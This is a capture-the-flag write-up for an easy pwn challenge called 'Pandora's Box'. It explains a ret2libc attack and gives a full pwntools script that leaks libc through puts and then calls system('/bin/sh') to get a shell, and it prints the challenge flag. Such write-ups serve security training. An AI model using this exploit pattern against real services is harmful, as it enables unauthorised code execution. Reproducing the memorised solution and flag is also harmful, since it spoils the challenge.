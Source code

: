 ```yaml
---
Name: Pandora's Box
Category: Pwn
Difficulty: Easy
---
```


## Description
>You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution
Classic ret2libc attack. First, find the offset to RIP.
```bash
cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```

Next, leak lib-c foothold with `puts()` then redirect execution flow to the beginning of the `box` function and this time, ret2system.
```python
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4013a5
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './pb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
libc = ELF('glibc/libc.so.6')

# OFfset to RIP
offset = 56

# Start program
io = start()

# POP RDI from ropper
pop_rdi = 0x40142b
ret = 0x401016

# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        elf.symbols.box
    ]
})

# Second menu option
io.sendlineafter(b'>', b'2')

# Send the payload
io.sendlineafter(b':', payload)

io.recvlines(3)  # Receive the newlines

# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# System(/bin/sh)
info("system_addr: %#x", libc.symbols.system)
bin_sh = next(libc.search(b'/bin/sh\x00'))
info("bin_sh: %#x", bin_sh)

# Payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        bin_sh,
        ret,
        libc.symbols.system
    ]
})

# Second menu option
io.sendline(b'2')

# Send the payload
io.sendlineafter(b':', payload)

# Got Shell?
io.interactive()
```

`HTB{r3turn_2_P4nd0r4?!}`